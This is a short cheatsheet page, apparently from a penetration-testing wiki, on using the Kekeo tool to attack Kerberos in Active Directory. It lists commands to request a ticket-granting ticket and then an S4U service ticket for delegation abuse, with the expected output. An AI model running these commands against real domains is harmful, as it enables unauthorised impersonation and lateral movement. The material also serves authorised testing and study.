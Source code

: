 # Kekeo Cheatsheet
[Kekeo](https://github.com/gentilkiwi/kekeo) is tool for [[Attacking-Kerberos]] and with [[Mimikatz-Cheatsheet]] performing [[AD-Kerberos-Delegation-Exploitation]]. For details about Kerberos Authentication see [[Active-Directory-Kerberos-Authentication-Defined]]


Generate TGT tickets 
```shell
# kekeo.exe
tgt::ask /user:<user> /domain:<domain> /password:<password>
# Successful output will have:
> Ticket in file 'tgt_filename'
#
tgs::s4u /tgt:'tgt_filename' /user:<current_username_not_svc> /service:<service>
# Successful output will have:
> Ticket in file 'TGS_...'
```


## References
[Github Repo](https://github.com/gentilkiwi/kekeo)